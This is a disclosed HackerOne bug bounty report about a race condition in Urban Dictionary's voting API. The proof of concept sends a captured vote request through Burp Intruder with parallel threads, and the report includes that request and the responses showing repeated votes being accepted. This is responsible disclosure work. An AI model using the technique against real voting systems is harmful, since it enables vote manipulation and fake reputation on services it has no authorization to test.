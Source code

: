 # Race condition in up voting and down voting

## Report Details
- **Report ID**: 183837
- **URL**: https://hackerone.com/reports/183837
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-11-21T17:39:28.262Z
- **Disclosed**: 2023-10-27T14:07:16.761Z

## Reporter
- **Username**: flashdisk
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: urbandictionary

## Vulnerability Information
Hi,

I want to report an issue that I have found on http://www.urbandictionary.com/
when a user wants to up vote or down vote a term he simply presses on the up or down button.
each user can up vote or down vote a term only once, but I have found that if a parallel threads do the process of up voting then multiple requests will be accepted.

**POC**

I entered the following term url: http://www.urbandictionary.com/define.php?term=alicia
intercepted the request using burp suite and sent it to intruder and set the number of threads to be 11 then started the requests which has the following:

GET /v0/vote?defid=3889203&direction=up&key=ab71d33b15d36506acf1e379b0ed07ee HTTP/1.1
Host: api.urbandictionary.com
Cache-Control: max-age=0
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://www.urbandictionary.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36
Referer: http://www.urbandictionary.com/define.php?term=alicia
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Connection: close

as a response I got the following responses:

HTTP/1.1 200 OK
Connection: close
Access-Control-Allow-Methods: GET
Access-Control-Allow-Origin: http://www.urbandictionary.com
X-License: http://api.urbandictionary.com/
Cache-Control: private
Content-Type: application/json; charset=utf-8
Server: Aleph/0.4.1
Date: Mon, 21 Nov 2016 17:24:35 GMT
Via: 1.1 vegur
Content-Length: 40

{"status":"saved","up":6429,"down":1798}

HTTP/1.1 200 OK
Connection: close
Access-Control-Allow-Methods: GET
Access-Control-Allow-Origin: http://www.urbandictionary.com
X-License: http://api.urbandictionary.com/
Cache-Control: private
Content-Type: application/json; charset=utf-8
Server: Aleph/0.4.1
Date: Mon, 21 Nov 2016 17:24:35 GMT
Via: 1.1 vegur
Content-Length: 40

{"status":"saved","up":6430,"down":1797}


HTTP/1.1 200 OK
Connection: close
Access-Control-Allow-Methods: GET
Access-Control-Allow-Origin: http://www.urbandictionary.com
X-License: http://api.urbandictionary.com/
Cache-Control: private
Content-Type: application/json; charset=utf-8
Server: Aleph/0.4.1
Date: Mon, 21 Nov 2016 17:24:35 GMT
Via: 1.1 vegur
Content-Length: 40

{"status":"saved","up":6431,"down":1796}

HTTP/1.1 200 OK
Connection: close
Access-Control-Allow-Methods: GET
Access-Control-Allow-Origin: http://www.urbandictionary.com
X-License: http://api.urbandictionary.com/
Cache-Control: private
Content-Type: application/json; charset=utf-8
Server: Aleph/0.4.1
Date: Mon, 21 Nov 2016 17:24:36 GMT
Via: 1.1 vegur
Content-Length: 40

{"status":"saved","up":6432,"down":1795}

HTTP/1.1 200 OK
Connection: close
Access-Control-Allow-Methods: GET
Access-Control-Allow-Origin: http://www.urbandictionary.com
X-License: http://api.urbandictionary.com/
Cache-Control: private
Content-Type: application/json; charset=utf-8
Server: Aleph/0.4.1
Date: Mon, 21 Nov 2016 17:24:36 GMT
Via: 1.1 vegur
Content-Length: 40

{"status":"saved","up":6433,"down":1795}

which means I can up vote more than once and of course the same applies for down voting which can mislead users and creates fake reputation for the terms created.

thanks. 





## Attachments
No attachments
